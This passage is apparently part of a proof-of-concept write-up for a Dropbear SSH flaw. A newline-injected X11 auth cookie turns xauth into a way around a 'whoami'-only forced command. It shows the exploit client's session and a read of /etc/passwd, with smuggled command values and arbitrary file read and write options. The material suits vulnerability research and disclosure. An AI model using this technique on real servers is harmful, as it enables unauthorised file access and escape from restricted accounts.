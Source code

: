2. run dropbearsshd (x11fwd is on by default)

	```c
	#> ~/dropbear-2015.71/dropbear -R -F -E -p 2222
	[22861] Not backgrounding
	[22862] Child connection from 192.168.139.1:49597
	[22862] Forced command 'whoami'
	[22862] Pubkey auth succeeded for 'user1' with key md5 dc:b8:56:71:89:36:fb:dc:0e:a0:2b:17:b9:83:d2:dd from 192.168.139.1:49597
	```	

3. `forced-commands` - connect with user1 and display env information

	```c
	#> python <host> 2222 user1 .demoprivkey
	
	INFO:__main__:add this line to your authorized_keys file: 
	#PUBKEY line - force commands: only allow "whoami"
	#cat /home/user/.ssh/authorized_keys
	command="whoami" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1RpYKrvPkIzvAYfX/ZeU1UzLuCVWBgJUeN/wFRmj4XKl0Pr31I+7ToJnd7S9JTHkrGVDu+BToK0f2dCWLnegzLbblr9FQYSif9rHNW3BOkydUuqc8sRSf3M9oKPDCmD8GuGvn40dzdub+78seYqsSDoiPJaywTXp7G6EDcb9N55341o3MpHeNUuuZeiFz12nnuNgE8tknk1KiOx3bsuN1aer8+iTHC+RA6s4+SFOd77sZG2xTrydblr32MxJvhumCqxSwhjQgiwpzWd/NTGie9xeaH5EBIh98sLMDQ51DIntSs+FMvDx1U4rZ73OwliU5hQDobeufOr2w2ap7td15 user@box
	
	INFO:__main__:connecting to: user1:<PKEY>@192.168.139.129:2222
	INFO:__main__:connected!
	INFO:__main__:
	Available commands:
	    .info
	    .readfile <path>
	    .writefile <path> <data>
	    .exit .quit
	    <any xauth command or type help>
	
	#> .info
	DEBUG:__main__:auth_cookie: '\ninfo'
	DEBUG:__main__:dummy exec returned: None
	INFO:__main__:Authority file:       /home/user1/.Xauthority
	File new:             no
	File locked:          no
	Number of entries:    2
	Changes honored:      yes
	Changes made:         no
	Current input:        (stdin):2
	user1
	/usr/bin/xauth: (stdin):1:  bad "add" command line
	
	...
	```
	
4. `forced-commands` - read `/etc/passwd`

	```c
	...
	#> .readfile /etc/passwd
	DEBUG:__main__:auth_cookie: 'xxxx\nsource /etc/passwd\n'
	DEBUG:__main__:dummy exec returned: None
	INFO:__main__:root:x:0:0:root:/root:/bin/bash
	daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
	bin:x:2:2:bin:/bin:/usr/sbin/nologin
	sys:x:3:3:sys:/dev:/usr/sbin/nologin
	sync:x:4:65534:sync:/bin:/bin/sync
	...
	```
		